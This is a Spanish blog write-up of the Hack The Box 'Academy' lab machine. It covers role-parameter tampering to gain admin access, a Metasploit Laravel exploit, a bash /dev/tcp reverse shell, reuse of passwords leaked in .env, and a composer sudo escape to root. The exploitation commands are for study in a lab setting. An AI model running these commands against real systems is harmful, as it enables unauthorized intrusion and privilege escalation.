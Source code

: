 ```yaml
---
layout: single
title: Academy - Hack The Box
excerpt: "Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root."
date: 2021-03-07
classes: wide
header:
  teaser: /assets/images/Academy-Hackthebox/academy.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Academy-Hackthebox/academy.png)

Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root.

## Escaneo de puertos

![](/assets/images/Academy-Hackthebox/nmap.png)

Puertos 22,80 y 33060 abiertos.
Empiezo por el 80. Accedo con el navegador a la ip 10.10.10.215 y me dice que no se puede abrir la página.
Veo que en el escaneo con nmap aparece el dominio academy.htb, lo añado al fichero hosts y ya me deja acceder con el nombre del dominio.

![](/assets/images/Academy-Hackthebox/web.png)

Lanzo gobuster para fuzzear los directorios y ficheros de la web.

![](/assets/images/Academy-Hackthebox/gobuster.png)

Mientras tanto me registro en la página y capturo la petición con burpsuite.
Veo que los parámetros que viajan en la petición son:
uid=ximo&password=ximo&confirm=ximo&roleid=0
Me llamala atención el parámetro roleid. Envío la petición al repeater y modifico el valor a 1.
Gobuster descubre una página que se llama admin.php, así que pruebo el usuario que he registrado con el roleid=1 y accedo como admin.

![](/assets/images/Academy-Hackthebox/admin.png)

Gobuster encuentra también un fichero readme dentro del directorio academy, que dice que se está usando un framework llamado laravel.

Me llama la atención esto : Fix issue with dev-staging-01.academy.htb
Lo añado al fichero hosts y accedo a la página.

![](/assets/images/Academy-Hackthebox/dev.png)

Sabiendo que el frameowrk usado es laravel empiezo a buscar vulnerabilidades relacionadas con este framework.
Encuentro un exploit para metasploit y decido usarlo.
Seteo el app_key, que me lo da la web del subdominio en la sección de environment, el rhosts academy.htb, lhost tun0 y vhost dev-staging-01.academy.htb y obtengo una shell.

![](/assets/images/Academy-Hackthebox/msf.png)

Me pongo a la escucha con rlwrap nc -lvnp 9001 y me lanzo una reverse shell para estar más cómodo
`bash -c 'bash -i >& /dev/tcp/10.10.14.191/9001 0>&1'`

Voy al directorio academy y con ls -a veo que hay un fichero .env que puedo leer y que contiene unas credenciales.

![](/assets/images/Academy-Hackthebox/creds.png)

En el directorio home hay varios usuarios, pruebo la contraseña con todos y hay uno que funciona.

```
su cry0l1t3
Password: mySup3rP4s5w0rd!!
```

Ya puedo leer el fichero user.txt

Subo a la máquina el script linpeas.sh y lo ejecuto y encuentro la contraseña del usuario mrb3n –> mrb3n_Ac@d3my!

![](/assets/images/Academy-Hackthebox/linpeas.png)


Con el comando su me convierto en el usuario mrb3n

![](/assets/images/Academy-Hackthebox/su.png)

Con sudo -l veo que puedo ejecutar el comando composer como root

![](/assets/images/Academy-Hackthebox/sudo.png)

Busco composer en gtfobins y veo que hay una forma de explotarlo cuando se puede usar con sudo

![](/assets/images/Academy-Hackthebox/gtfobins.png)

Ejecuto los comandos y obtebgo la shell de root

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
Ya puedo leer el root.txt

![](/assets/images/Academy-Hackthebox/root.png)



